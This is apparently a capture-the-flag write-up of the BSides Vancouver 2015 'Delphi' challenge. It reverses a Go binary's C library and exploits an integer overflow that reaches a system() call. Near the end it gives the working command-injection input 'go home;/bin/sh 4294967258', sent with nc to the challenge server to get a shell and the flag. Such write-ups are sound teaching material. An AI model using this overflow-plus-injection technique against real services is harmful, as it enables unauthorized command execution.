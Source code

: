```yaml
---
layout: post
title: "BSides Vancouver 2015 Delphi"
date: 2015-03-18 19:19:44 -0400
author: [barrebas,swappage]
comments: true
categories: [bsides vancouver]
---
```


### Solved by barrebas, Swappage

This 200 points challenge revolved around a binary written in *go*, for me and Bas this was our first attempt to exploit a Go binary, and was a resulted being a lot of fun :)

Binaries written in this language are generally safe from commonly exploited
vulnerabilities like buffer overflows, but in this case, the binary, was dynamically
linking an external library, which immediately pulled our attention.

    #file delphi-07a5c9d07a4c20ae81a2ddc66b9602d0dcceb74b
    delphi-07a5c9d07a4c20ae81a2ddc66b9602d0dcceb74b: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=0x936b88708739382f1d376e89a4b82a4248d19b08, not stripped

    # ldd delphi-07a5c9d07a4c20ae81a2ddc66b9602d0dcceb74b
        linux-vdso.so.1 =>  (0x00007fff24e24000)
        libtwenty.so => /usr/local/lib/libtwenty.so (0x00007fb0ddd7c000)
        libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007fb0ddb60000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb0dd7d4000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fb0ddf9a000)

The program, upon execution would present us a simple prompt accepting input as follows

    # ./delphi-07a5c9d07a4c20ae81a2ddc66b9602d0dcceb74b
    Welcome!

    Are you ready to play 20 questions? No? Perfect!
    I'm thinking of something big, metal, and orange. Go!
    >

 and reply with a random output from a set of predefined strings if the input wasn't formatted as it would expect.

 By simply fuzzing around, we managed to figure out that by entering the string *go* as a reply would trigger the program to reply as follows

     > go
    Sneaky, sneaky. Go where? How fast?
    >

which suggested that it was expecting a set of three arguments.
By luck, and later on confirming in the debugger, we noticed that sending a string like

    >go home <something>

would cause the program to reach the program branch where the *check_answer()* function is called, and where the actual vulnerability resides.

But let's take a step back: in the function *main.doTheMagic()* (what a cool name, it really sounded like something nasty was happening here :) ) righe before the call to *check_answer()* the third argument is converted to an integer via a call to *strconv.Atoi()*

```
0x401da6 <main.doTheMagic+374>: call   0x44d0b0 <strconv.Atoi>
0x401dab <main.doTheMagic+379>: mov    rbx,QWORD PTR [rsp+0x10]
0x401db0 <main.doTheMagic+384>: mov    ebx,ebx
0x401db2 <main.doTheMagic+386>: mov    DWORD PTR [rsp],ebx
0x401db5 <main.doTheMagic+389>: mov    rbx,QWORD PTR [rsp+0x40]
0x401dba <main.doTheMagic+394>: mov    QWORD PTR [rsp+0x8],rbx
0x401dbf <main.doTheMagic+399>: call   0x402230 <main._Cfunc_check_answer>
```
which suggested that the third argument should be a number, and that something nasty was going to happen from there soon in the unsafe function from the external C library.

*libtwenty.so*, as said earlier, is the library that contains the *check_answer()* function, and here is how it looks, both in block diagram and disassembled code.

![](/images/2015/bsides_vancouver/delphi/check_answer_diagram.png)

```
Dump of assembler code for function check_answer:
   0x00007ffff7bdb758 <+0>: push   rbp
   0x00007ffff7bdb759 <+1>: mov    rbp,rsp
   0x00007ffff7bdb75c <+4>: sub    rsp,0xa0
   0x00007ffff7bdb763 <+11>:    mov    DWORD PTR [rbp-0x94],edi
   0x00007ffff7bdb769 <+17>:    mov    QWORD PTR [rbp-0xa0],rsi
   0x00007ffff7bdb770 <+24>:    mov    WORD PTR [rbp-0x2],0x2a
   0x00007ffff7bdb776 <+30>:    lea    rax,[rbp-0x90]
   0x00007ffff7bdb77d <+37>:    mov    DWORD PTR [rax],0x6f686365
   0x00007ffff7bdb783 <+43>:    mov    WORD PTR [rax+0x4],0x20
   0x00007ffff7bdb789 <+49>:    mov    eax,DWORD PTR [rbp-0x94]
   0x00007ffff7bdb78f <+55>:    add    WORD PTR [rbp-0x2],ax
   0x00007ffff7bdb793 <+59>:    movzx  eax,WORD PTR [rbp-0x2]
   0x00007ffff7bdb797 <+63>:    cmp    eax,0x4
   0x00007ffff7bdb79a <+66>:    ja     0x7ffff7bdb7ed <check_answer+149>
   0x00007ffff7bdb79c <+68>:    mov    eax,eax
   0x00007ffff7bdb79e <+70>:    lea    rdx,[rax*4+0x0]
   0x00007ffff7bdb7a6 <+78>:    lea    rax,[rip+0xff]        # 0x7ffff7bdb8ac
   0x00007ffff7bdb7ad <+85>:    mov    eax,DWORD PTR [rdx+rax*1]
   0x00007ffff7bdb7b0 <+88>:    movsxd rdx,eax
   0x00007ffff7bdb7b3 <+91>:    lea    rax,[rip+0xf2]        # 0x7ffff7bdb8ac
   0x00007ffff7bdb7ba <+98>:    add    rax,rdx
   0x00007ffff7bdb7bd <+101>:   jmp    rax
   0x00007ffff7bdb7bf <+103>:   mov    rax,QWORD PTR [rbp-0xa0]
   0x00007ffff7bdb7c6 <+110>:   lea    rdx,[rbp-0x90]
   0x00007ffff7bdb7cd <+117>:   add    rdx,0x5
   0x00007ffff7bdb7d1 <+121>:   mov    rsi,rax
   0x00007ffff7bdb7d4 <+124>:   mov    rdi,rdx
   0x00007ffff7bdb7d7 <+127>:   call   0x7ffff7bdb650 <strcat@plt>
   0x00007ffff7bdb7dc <+132>:   lea    rax,[rbp-0x90]
   0x00007ffff7bdb7e3 <+139>:   mov    rdi,rax
   0x00007ffff7bdb7e6 <+142>:   call   0x7ffff7bdb630 <system@plt>
   0x00007ffff7bdb7eb <+147>:   jmp    0x7ffff7bdb808 <check_answer+176>
   0x00007ffff7bdb7ed <+149>:   lea    rdi,[rip+0x24]        # 0x7ffff7bdb818
   0x00007ffff7bdb7f4 <+156>:   call   0x7ffff7bdb620 <puts@plt>
   0x00007ffff7bdb7f9 <+161>:   lea    rdi,[rip+0x58]        # 0x7ffff7bdb858
   0x00007ffff7bdb800 <+168>:   call   0x7ffff7bdb620 <puts@plt>
   0x00007ffff7bdb805 <+173>:   jmp    0x7ffff7bdb808 <check_answer+176>
   0x00007ffff7bdb807 <+175>:   nop
   0x00007ffff7bdb808 <+176>:   leave  
   0x00007ffff7bdb809 <+177>:   ret
End of assembler dump.
```
There are two extremely interesting things here:

 - at 0x00007ffff7bdb79a, if ras = 4, then we reach a branch of code that ends with a jmp rax at 0x00007ffff7bdb7bd
 - by controlling the value in rax when the jump is taken, we can reach another extremely juicy branch of code that executes a call to *strcat()* as well as *system()*

 This means that if we can force the application to not take the jump at 0x00007ffff7bdb79a, we can execute arbitrary code and hopefully spawn a shell.

But where is the vulnerability?

At 0x00007ffff7bdb763 our arguments are moved on the stack, with also a 0x2a moved at [rbp -0x2]

```
0x00007ffff7bdb763 <+11>:   mov    DWORD PTR [rbp-0x94],edi
0x00007ffff7bdb769 <+17>:   mov    QWORD PTR [rbp-0xa0],rsi
0x00007ffff7bdb770 <+24>:   mov    WORD PTR [rbp-0x2],0x2a
```
and then this calculation is done

```
0x00007ffff7bdb789 <+49>:   mov    eax,DWORD PTR [rbp-0x94]
0x00007ffff7bdb78f <+55>:   add    WORD PTR [rbp-0x2],ax
0x00007ffff7bdb793 <+59>:   movzx  eax,WORD PTR [rbp-0x2]
```

So basically what happens is that

 - our third argument is cast to an int (from earlier) and moved to the stack
 - later on that value is moved into eax
 - 0x2a is then added to eax

This results in our ability to control RAX, and since our third argument is cast to an int, in the previous function, we can trigger an integer overflow, force the value to start counting from 0, and have 0 <= RAX <= 4.

To do that we pick the highest possible int value and calculate the following

    0xffffffff - 0x2a + 0x4 = 0xffffffd9 = 4294967257

and as expected the jump is not taken, leading us to the branch of code that will result in arbitrary code execution via system().

![](/images/2015/bsides_vancouver/delphi/gdb.png)

By forcing the value of RAX to be 4, when the following instruction is executed

    0x00007ffff7bdb7bd <+101>:  jmp    rax

 rax is equal to 0x7ffff7bdb7bf
 which is the area of code where *strcat()* and then *system()* are called.

 on *system()* execution, RAX points to "echo home"

    RAX: 0x7fffffffe220 ("echo home")

and since home was the second argument we submitted to the program in the beginning, we can quite confidentially assume that we can lavarage this to command ijection.

We decided to try this directly on the remote server in the perfect "i feel lucky" style

    # nc delphi.termsec.net 5000
    Welcome!

    Are you ready to play 20 questions? No? Perfect!
    I'm thinking of something big, metal, and orange. Go!
    > go home;/bin/sh 4294967258
    home
    cat flag.txt
    flag{I_l3t_my_tape_r0ck_til_my_t4pe_popped}

and appearently it worked :)

